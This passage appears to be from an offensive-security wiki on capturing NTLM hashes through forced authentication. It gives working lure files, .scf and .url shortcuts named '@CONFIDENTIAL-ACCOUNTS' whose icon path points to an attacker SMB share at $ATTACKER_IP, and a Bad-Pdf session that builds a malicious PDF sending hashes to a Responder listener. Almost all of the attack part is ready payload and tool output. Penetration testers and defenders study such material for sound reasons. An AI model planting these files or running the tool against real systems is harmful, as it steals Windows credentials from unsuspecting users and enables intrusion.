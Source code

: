 {% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

{% tabs %}
{% tab title="Bad-Pdf" %}
[Bad-PDF](https://github.com/deepzec/Bad-Pdf) create malicious PDF file to steal NTLM(NTLMv1/NTLMv2) Hashes from windows machines, it utilize vulnerability disclosed by checkpoint team to create the malicious PDF file. Bad-Pdf reads the NTLM hashes using Responder listener.

{% hint style="info" %}
Adobe has released a security update(APSB18-09)to address this vulnerability and CVE-2018-4993 is assigned for this vulnerability.
{% endhint %}

```bash
$ sudo python2.7 badpdf.py

      
        ______                 __       _______  ______   ________  
        |_   _ \               |  ]     |_   __ \|_   _ `.|_   __  | 
          | |_) |  ,--.    .--.| | ______ | |__) | | | `. \ | |_ \_| 
          |  __'. `'_\ : / /'`' ||______||  ___/  | |  | | |  _|    
         _| |__) |// | |,| \__/  |       _| |_    _| |_.' /_| |_     
        |_______/ '-;__/ '.__.;__]     |_____|  |______.'|_____|

        Author : Deepu TV ; Alias DeepZec 

        =============================================================
        
Responder detected :/usr/sbin/responder
Please enter Bad-PDF host IP: 
10.10.14.8
Please enter output file name: 
bad.pdf
Please enter the interface name to listen(Default eth0): 
eth0
[*] Starting Process.. [*]
Bad PDF bad.pdf created
```